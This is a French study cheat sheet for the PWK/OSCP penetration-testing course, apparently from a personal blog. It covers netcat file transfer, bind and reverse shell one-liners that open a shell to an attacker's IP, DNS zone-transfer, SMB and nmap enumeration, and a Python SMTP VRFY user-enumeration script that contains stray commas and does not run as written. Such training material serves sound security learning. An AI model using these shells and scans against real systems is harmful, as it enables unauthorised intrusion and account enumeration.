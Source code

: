 ```yaml
---
layout: post
title: Cheatsheet - PWK Essentials
subtitle: Résumé PWK - OSCP 
gh-repo: 0xSs0rZ/0xSs0rZ.github.io
gh-badge: [star]
tags: [Cheat sheet, PWK, OSCP, Netcat, Find, Locate, Which, SSH, Apache, Ncat, Transfert fichier, Bind shell, Reverse shell, theharvester, DNS, DNS enumeration, DNS zone transfer, DNSRecon, SMB, SMB enumeration, nbtscan, enum4linux, SMTP enumeration, SMTP, Python, socket, Nmap,  Commandes, Linux, Windows]
comments: false
---
```


** Résumé du PWK - OSCP **

# Locate

~~~
root@Host-001:~# locate rockyou.txt
/root/Bureau/SecLists/Passwords/Leaked-Databases/rockyou.txt.tar.gz
/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt.tar.gz
/usr/share/wordlists/rockyou.txt
~~~

# Which 

~~~
root@Host-001:~# which python
/usr/bin/python
~~~

# Find 

~~~
root@Host-001:~# find /root -name mimikatz.exe
/root/Bureau/mimikatz.exe
~~~

# SSH

Lancer le service: service ssh start
Verifier que le service est en cours: netstat -antp | grep sshd
Forcer le lancement du service lors du démarrage: update-rc.d ssh enable

# Apache

Lancer le service: service apache2 start
Verifier que le service est en cours: netstat -antp | grep apache
Forcer le lancement du service lors du démarrage: update-rc.d apache2 enable

# Bash

# Netcat

1. Transfert de fichier

Machine réceptrice:

~~~
nc -nlvp PORT ­> file
~~~

Machine émettrice:

~~~
nc -nv IP PORT < file_to_send
~~~

2. Bind shell

Machine cible:

~~~
// Windows
nc -nlvp PORT -e cmd.exe
// Linux
nc -nlvp PORT -e /bin/bash
~~~

Attaquant:

~~~
nc -nv IP_CIBLE PORT
~~~

3. Reverse shell

Attaquant:

~~~
nc -nlvp PORT
~~~

Cible:

~~~
nc -nv IP_ATTAQUANT PORT -e /bin/bash
~~~

# theharvester

theharvester est un outil pour trouver des email durant la phase de reconnaissance

~~~
root@kali:~# theharvester -d cisco.com -b google >google.txt
~~~

# DNS server enumeration

~~~
host -t ns domainname.com
~~~

# Mail server enumeration

~~~
host -t mx domainename.com
~~~

# DNS zone transfert

~~~
//host -l <domain name> <dns server address>
host -l domainname.com ns1.domainname.com

//Avec Nmap
nmap --script=dns-zone-tranfer -p 53 ns1.domainename.com
~~~

# DNSRecon

~~~
dnsrecon -d domainname.com -t axfr
~~~

# Nmap

~~~
//Pour trouver les hotes d'un réseau en complément de netdiscover
nmap -v -sn IP_DEBUT-IP_FIN
~~~

-oG : pour enregistrer dans un fichier 'grep'able
-O : version de l'OS

~~~
//HTB Style
nmap -sC -sV IP
~~~

~~~
//Scan SMB - ports SMB NetBIOS 139 et 445
nmap -v -p 139,445 IP_DEBUT-IP FIN
~~~

~~~
// Script pour détecter l'OS
nmap IP --script smb-os-discovery.nse
~~~

# SMB enumeration

~~~
//nbtscan
nbtscan -r 192.168.1.0/24

//enum4linux
enum4linux -a IP

//scripts nmap
ls -la /usr/share/nmap/scripts/smb*

//check for known SMB protocol vulnerabilities
nmap -v -p 139,445 --script=smb-check-vulns --script-args=unsafe=1 IP
~~~

# SMTP Enumeration

~~~
//Port ouvert ?
nc -nv IP 25
// si ouvert verifier si bob exist
VRFY bob
~~~

Script vrfy.py:

~~~
#!/usr/bin/python
import socket
import sys
if len(sys.argv) != 2:,
	print "Usage: vrfy.py <username>",
	sys.exit(0)
	
# Create a Socket 
s=socket.socket(socket.AF_INET,,socket.SOCK_STREAM),

# Connect to the Server
connect=s.connect(('192.168.11.215',25))

# Receive the banner
banner=s.recv(1024)
print banner 

# VRFY a user
s.send('VRFY ' + sys.argv[1] + '\r\n')
result=s.recv(1024)
print result

# Close the socket
s.close()
~~~

[![CC-BY](https://mirrors.creativecommons.org/presskit/buttons/88x31/svg/by.svg)](https://creativecommons.org/licenses/by/4.0/)

This work is licensed under a [Creative Commons Attribution 4.0 International License](https://creativecommons.org/licenses/by/4.0/).
